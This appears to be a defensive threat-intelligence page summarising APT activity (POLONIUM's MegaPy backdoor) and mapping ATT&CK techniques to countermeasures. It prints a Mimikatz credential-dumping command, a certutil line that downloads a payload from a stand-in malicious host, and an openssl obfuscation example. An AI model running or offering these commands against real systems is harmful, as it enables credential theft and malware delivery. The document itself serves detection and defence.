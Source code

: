 [Kaspersky ICS CERT](https://ics-cert.kaspersky.com/publications/reports/2024/10/03/apt-and-financial-attacks-on-industrial-organizations-in-q2-2024/)

### 5. **POLONIUM’s Python Backdoor**

POLONIUM, an APT linked to Hezbollah interests, conducted an attack against Israeli organizations in November 2023. They used a Python-based backdoor known as **MegaPy** to exfiltrate sensitive data, leveraging **T1071.003 – Application Layer Protocol: WebDAV** for C2 communications. The group implemented encrypted payloads tailored for each victim, using cloud services like **MEGA** and **Nextcloud** for data storage. They also used **T1027 – Obfuscated Files or Information** to mask the exploit chain and evade detection​

[Kaspersky ICS CERT](https://ics-cert.kaspersky.com/publications/reports/2024/10/03/apt-and-financial-attacks-on-industrial-organizations-in-q2-2024/)  
[Malware Protection & Internet Security](https://www.eset.com/int/business/resource-center/reports/apt-activity-report-q4-2023-q1-2024/)

---

### Credential Access Techniques

**APT Usage**: APT3 and APT29 are known to use tools like **Mimikatz** to dump credentials from memory in Windows environments, especially in Active Directory.

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

- **Countermeasure**:
    - Disable `Wdigest` authentication in the registry to prevent storing plaintext passwords in memory.
    - Use Windows Defender Credential Guard to protect against credential dumping.

### Exfiltration Techniques

#### **Ingress Tool Transfer**

**APT Usage**: APT groups often transfer malicious payloads during exfiltration or lateral movement, such as **Cobalt Strike** or **Rundll32** payloads.

```
certutil.exe -urlcache -split -f http://malicious-url.com/payload.exe payload.exe
```

**Countermeasure**:

- Block execution of `certutil.exe` unless explicitly required.
- Restrict outbound traffic using firewalls and monitor for unusual HTTP traffic.

### Evasion Techniques

#### **Obfuscated Files or Information**

**APT Usage**: APT28 and other groups frequently use obfuscation to bypass detection. Tools like **Impacket** and custom scripts are commonly used to encrypt or encode data exfiltration or C2 traffic.

```
openssl enc -aes-256-cbc -salt -in data.txt -out data.enc
```

- Monitor for unusual file creation and encryption patterns, especially on endpoints with no encryption activities.
- Analyze logs for unusual base64 encoded commands or file extensions.
